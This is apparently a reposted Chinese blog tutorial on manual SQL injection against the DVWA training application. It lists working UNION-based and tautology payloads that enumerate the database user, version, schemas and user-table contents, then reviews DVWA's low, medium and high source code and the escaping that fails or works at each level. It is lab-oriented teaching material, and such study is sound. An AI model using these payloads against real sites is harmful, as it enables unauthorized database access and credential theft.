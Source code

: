 ```yaml
---
layout:     post
title:      "SQL注入原理-DVWA之php+mysql手工注入「转」"
subtitle:   "SQL injection principle - DVWA PHP + mysql manual injection"
date:       2014-9-10
author:     "LingDie | 靈蝶"
header-img: "img/blog/2014/zr.jpg"
tags:
    - PHP
    - 安全
    - SQL注入
    - 转载
---
```


> 下滑这里查看更多内容

1.使用浏览器打开http://192.168.1.3:8080/dvwa/login.php，输入用户名admin，密码password进行登录。登录需要将DVWA的安全级别调整为low。调整之后选择SQL Injection，进入页面。提示输入User ID，输入正确的ID，将显示 ID、First name、Surname信息。可以得知此处为注入点，尝试输入“’”，返回错误。
<img src="../../../../img/blog/2014/sqlzr/1.png" alt="">
<img src="../../../../img/blog/2014/sqlzr/2.png" alt="">
2.尝试输入1 or 1=1遍历数据库没有成功，猜测程序将此处看成了字符型。
<img src="../../../../img/blog/2014/sqlzr/3.png" alt="">
3.尝试输入1’ or ‘1’=’1遍历数据库成功，显示出了所有内容。
<img src="../../../../img/blog/2014/sqlzr/4.png" alt="">
4.利用order by num语句来测试查询信息列表，修改num的值，这里我们输入1'order by 1 - - (注意--后有空格，后面不再说明)结果页面正常显示。继续测试1'order by 2 -- ,1'order by 3 -- ，当输入3时，页面报错：Unknown column '3' in 'order clause'，由此我们判断查询结果值为2列。
<img src="../../../../img/blog/2014/sqlzr/5.png" alt="">
5.输入1' and 1=2 union select 1,2 -- ，从而得出First name处显示结果为查询结果第一列的值，Surname处显示结果为查询结果第二列的值。
<img src="../../../../img/blog/2014/sqlzr/6.png" alt="">
6.通过注入1' and 1=2 union select user(),database() -- 得到数据库用户以及数据库名称。
<img src="../../../../img/blog/2014/sqlzr/7.png" alt="">
7.通过注入1' and 1=2 union select version(),database() -- 得到数据库版本信息。
<img src="../../../../img/blog/2014/sqlzr/8.png" alt="">
8.通过注入1'and 1=2 union select 1,@@global.version_compile_os from mysql.user – 获得操作系统信息。
<img src="../../../../img/blog/2014/sqlzr/9.png" alt="">
9.通过注入1' and 1=2 union select 1,schema_name from information_schema.schemata -- 查询mysql所有数据库名字。
<img src="../../../../img/blog/2014/sqlzr/10.png" alt="">
10.通过注入1' and exists(select * from users) -- 猜解dvwa数据库中的表名。
<img src="../../../../img/blog/2014/sqlzr/11.png" alt="">
11.猜解字段名1' and exists(select 表名 from users) -- ，这里测试的字段名有first_name和last_name：1' and exists(select first_name from users) -- 和1' and exists(select last_name from users) – 。
<img src="../../../../img/blog/2014/sqlzr/12.png" alt="">
<img src="../../../../img/blog/2014/sqlzr/13.png" alt="">
12.爆出数据库中字段的内容 1' and 1=2 union select first_name,last_name from users -- ，这里其实如果是存放管理员账户的表，那么用户名、密码信息字段就可以爆出来了。
<img src="../../../../img/blog/2014/sqlzr/14.png" alt="">
13.查看low等级源代码。通过代码可以看出，对输入$id的值没有进行任何过滤就直接放入了SQL语句中进行处理，这样带来了极大的隐患。
<img src="../../../../img/blog/2014/sqlzr/15.png" alt="">
14.查看medium等级源代码。通过代码可以看出，对输入的$id的值使用mysql_real_eascape_string()函数进行了处理。在PHP中，使用mysql_real_eascape_string()函数用来转义SQL语句中使用字符串的特殊字符。但是使用这个函数对参数进行转换是存在绕过的。只需要将攻击字符进行转换一下编码格式即可绕过该防护函数。比如使用url编码等方式。同时发现SQL语句中变成了WHERE user_id = $id”，此处变成了数字型注入，所以此处使用mysql_real_escape_string()函数并没有起到防护的作用。
<img src="../../../../img/blog/2014/sqlzr/16.png" alt="">
15.查看high等级源代码。通过代码可以看出，对传入$id的值使用stripslashes()函数处理以后再使用$mysql_real_escape_string()函数进行处理。默认情况下，PHP会对所有的GET，POST和cookie数据自动运行addslashes()，addslashes()函数在每个双引号前添加反斜杠。
运行结果：Shanghai is the \"biggest\" city in China.

{% highlight ruby %}

<!DOCTYPE html>
<html>
<body>

<?php 
$str = addslashes('Shanghai is the "biggest" city in China.');
echo($str); 
?>  

</body>
</html>

{% endhighlight %}

stripslashes()函数则是删除由addslashes()函数添加的反斜杠。在使用这两个函数进行过滤之后再使用is_numric()函数检查$id的值是否为数字，彻底断绝了注入的存在。
<img src="../../../../img/blog/2014/sqlzr/17.png" alt="">

{% highlight ruby %}



{% endhighlight %}

